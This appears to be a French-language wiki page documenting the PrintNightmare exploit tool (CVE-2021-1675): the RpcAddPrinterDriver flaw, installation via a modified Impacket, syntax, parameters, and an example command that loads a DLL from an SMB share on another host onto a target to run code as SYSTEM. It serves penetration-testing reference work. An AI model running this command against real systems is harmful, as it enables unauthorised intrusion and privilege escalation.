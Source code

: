 ```yaml
---
title: PrintNightmare
description: Permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.
published: true
date: 2024-10-25T20:39:29.923Z
tags: outil, windows, indépendant
editor: markdown
dateCreated: 2024-08-23T14:57:38.073Z
---
```


# Introduction

PrintNightmare est un exploit qui utilise une faille dans la fonction RpcAddPrinterDriver, qui permet à n'importe quel utilisateur sans le privilège SeLoadDriverPrivilege, d'ajouter des drivers d'impression à un système local ou distant, et par conséquent d'exécuter du code en tant que NT AUTHORITY\SYSTEM.

> La fonction RpcAddPrinterDriver permet aux utilisateurs avec le privilège SeLoadDriverPrivilege d'ajouter des drivers sur des spouleurs distants.
> {.is-info}

> PrintNightmare est disponible au téléchargement [ici](https://github.com/cube0x0/CVE-2021-1675)
> {.is-info}

> Le canal nommé \pipe\spoolss est utilisé pour la communication.
> {.is-info}

# Installation

Cet exploit nécéssite une version de Impacket modifiée.

`pip3 uninstall impacket`
`git clone https://github.com/cube0x0/impacket`
`cd impacket`
`python3 ./setup.py install`

# Syntaxe

`CVE-2021-1675.py [[domaine/]utilisateur[:mot de passe]@]<nom ou adresse de la cible> <chemin du fichier DLL> [paramètres]`

# Paramètres

| Paramètre                    | Description                                                                       |
| ---------------------------- | --------------------------------------------------------------------------------- | -------------------------- |
| `-h                          | --help`                                                                           | Affiche le message d'aide. |
| `-hashes <LMHASH>:<NTHASH> ` | Spécifie les hashes NTLM pour l'authentification.                                 |
| `-target-ip [adresse]`       | Spécifie l'adresse de la cible (utile si le nom Netbios est utilisé comme cible). |
| `-port <port> `              | Spécifie le port de destination pour la connexion au serveur SMB.                 |

# Exemples

Ajoute le driver situé sur le partage SMB "\\192.168.1.2\smb\addCube.dll" sur le système 192.168.1.1 avec comme utilisateur domain.local/paul et mot de passe "t00r".
`CVE-2021-1675.py domain.local/paul:t00r@192.168.1.1 '\\192.168.1.2\smb\addCube.dll'`

# Voir aussi

Fonction RpcAddPrinterDriver:
https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/f23a7519-1c77-4069-9ace-a6d8eae47c22

Emplacement et informations concernant le canal nommé \pipe\spoolss:
https://learn.microsoft.com/fr-fr/openspecs/windows_protocols/ms-rprn/fdf1138a-f6b9-4b00-ada6-1fbb6097d683

